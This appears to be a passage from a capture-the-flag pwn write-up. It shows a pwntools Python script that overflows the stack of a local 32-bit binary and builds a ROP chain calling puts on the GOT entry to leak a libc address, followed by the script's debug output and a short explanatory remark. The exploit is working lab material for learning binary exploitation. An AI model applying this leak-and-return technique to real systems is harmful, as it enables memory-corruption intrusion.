 

```python
# first exp
from pwn import *

pwn3 = process("./pwn3")
elf = ELF("./pwn3")

context.log_level = 'debug'

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
main = elf.symbols["main"]

first_payload = 'A'*9 + 'B'*4 + p32(puts_plt) + p32(main) + p32(puts_got) 

pwn3.sendline(first_payload)
# if now prints 0x63617473
pwn3.recvuntil("\n\n")

puts_real_addr = u32(pwn3.recv(4))  
print (hex(puts_real_addr)) # 0xf7de9cb0  starts with "f7" => addr in libc
```



+ [notice]  There is "\n\n" in  `pwn3.recvuntil("\n\n")`   because when it jump to execute main again, it will recieve `'stack happy!\n' ` and ` '32bits\n'` .

Here is the result of exp1:

```shell
giantbranch@ubuntu:~/Desktop$ python pwn2.py
[+] Starting local process './pwn3': pid 5530
[DEBUG] PLT 0x8048370 fgets
[DEBUG] PLT 0x8048380 puts
[DEBUG] PLT 0x8048390 __libc_start_main
[DEBUG] PLT 0x80483a0 setvbuf
[DEBUG] PLT 0x80483b0 __gmon_start__
[*] '/home/giantbranch/Desktop/pwn3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[DEBUG] Received 0x15 bytes:
    'stack happy!\n'
    '32bits\n'
    '\n'
0x63617473
[DEBUG] Sent 0x1a bytes:
    00000000  41 41 41 41  41 41 41 41  41 42 42 42  42 80 83 04  │AAAA│AAAA│ABBB│B···│
    00000010  08 df 84 04  08 10 a0 04  08 0a                     │····│····│··│
    0000001a
[DEBUG] Received 0x22 bytes:
    00000000  b0 7c d8 f7  50 05 d4 f7  70 83 d8 f7  0a 73 74 61  │·|··│P···│p···│·sta│
    00000010  63 6b 20 68  61 70 70 79  21 0a 33 32  62 69 74 73  │ck h│appy│!·32│bits│
    00000020  0a 0a                                               │··│
    00000022
0xf7d87cb0
[*] Stopped process './pwn3' (pid 5530)
```
